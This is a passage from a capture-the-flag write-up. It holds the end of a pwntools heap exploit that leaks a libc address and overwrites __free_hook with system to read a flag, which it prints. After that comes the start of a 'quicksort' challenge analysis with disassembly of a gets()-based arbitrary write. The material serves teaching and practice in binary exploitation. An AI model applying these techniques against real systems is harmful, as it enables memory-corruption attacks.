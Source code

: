 ```
 add(0x90 - 0x8, "ok", "1")  #13
 call_girl(3)

 #leak
 show( 2 )
 r.recvuntil("name:"); r.recvline()
 leak_arena = u64(r.recvline().rstrip().ljust(8, "\x00"))
 log.info("leak heap 0x%x " % leak_arena)
 libc_base = (leak_arena - 0x3b1c40 - 0x60 )
 log.info("libc base 0x%x " % libc_base)
 free_hook = libc_base + 0x03b38c8
 one_gadget = libc_base + 0x41c30 #system instead

 add(0x120 - 0x8, "A"*0x90 + p64(free_hook), "1") #14
 add(0x90 -0x8, "cat flag\x00", "1") #15
 add(0x90 -0x8, p64(one_gadget)*0x2, "1") #16
 call_girl(15)
 interactive() #*CTF{pqyPl2seQzkX3r0YntKfOMF4i8agb56D}


exploit()
```


## quicksort

The program requires some integer as input, then it use quicksort to order them, buf before we must insert the length of the array, then malloc return a chunk.
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

The vulnerability resides when we insert the integers, as we can see in the following lines:
```
.text:080488FD                 lea     eax, [ebp+s]    ; s=-0x2c
.text:08048900                 push    eax             ; s
.text:08048901                 call    _gets           ; out of bounds write 

  ....                         ....   ....

.text:08048913                 mov     eax, [ebp+array_of_numbers] ;array_of_number=-0x10
.text:08048916                 lea     ebx, [edx+eax] 
.text:08048919                 sub     esp, 0Ch
.text:0804891C                 lea     eax, [ebp+s]
.text:0804891F                 push    eax             ; nptr
.text:08048920                 call    _atoi
.text:08048925                 add     esp, 10h
.text:08048928                 mov     [ebx], eax      ; write something to somewhere
```
so if we craft the buffer 's', we can choose where to overwrite.
